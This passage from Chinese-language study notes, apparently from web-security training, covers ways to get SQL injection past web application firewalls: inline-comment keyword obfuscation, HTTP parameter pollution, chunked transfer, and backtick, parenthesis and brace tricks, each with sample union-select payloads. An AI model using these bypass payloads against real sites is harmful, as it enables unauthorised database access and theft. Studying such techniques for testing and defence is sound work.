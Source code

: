    ```
     2. 过滤了union、where、table_name、table_schema、=、and、information_schema等词，可以使用
     	=> /*!%23/*%0a关键词*/ 来绕过
     	=> /*!99999*/
     ```

###### ⑤参数污染

* HPP(HTTP Parameter Polution)又称作**重复参数污染**，当同一参数出现多次，不同中间件会解析为不同的结果

* 如果WAF**只检测同名参数的第一个或最后一个**，并且**中间件特性**正好取与**WAF相反的参数**，则可成功绕过

  <img src="../../images/8-27-morning/参数污染.png" alt="参数污染" style="zoom:50%;" />

  ```
  	index.php?id=select 1,2,3 from table
  =>	index.php?id=select 1&id=2,3 from table
  ```

###### ⑥缓冲区溢出

* 许多WAF使用**C语言**写的，而C语言**没有缓冲区保护机制**，测试向量时**超出了其缓冲区长度**时，会引发Bug从而绕过

###### ⑦整合绕过

* 结合使用**前面的各种绕过技术**

###### ⑧分块传输绕过

* 将**传输的内容分块**时，处理后的HTTP请求由于**和已知的payload相差较大**，所以可以起到绕过作用

  <img src="../../images/8-27-morning/分快传输.png" alt="分快传输"  />

###### ⑨特殊符号绕过

* 使用**反引号 `** 可以绕过**空格和正则**，特殊情况下还可以将其作为注释符用

* 使用 **-+.** ，起到**连接字符串**的作用

  ```
  index.php?id=-1.0 union select"1",2,3
  index.php?id=-1E0 union select~1,2,3
  index.php?id=-1 union select 1,2,version()"from users"
  index.php?id=-1 union select`id`,1,2 from users"
  index.php?id=-1 union select 1,2,version()`from users`
  ```

* 普通括号

  ```
  index.php?id=(-1)union(select(1),(2),(3)from(users))
  index.php?id=(1)or(0x50=0x50)
  index.php?id=(-1)union((((((select(1),hex(2),hex(3)from(users)))))))
  ```

* 花括号

  ```
  index.php?id=-1 union select 1,{x 2},3
  ```

* 等号

  * 使用``like``来替代

  ```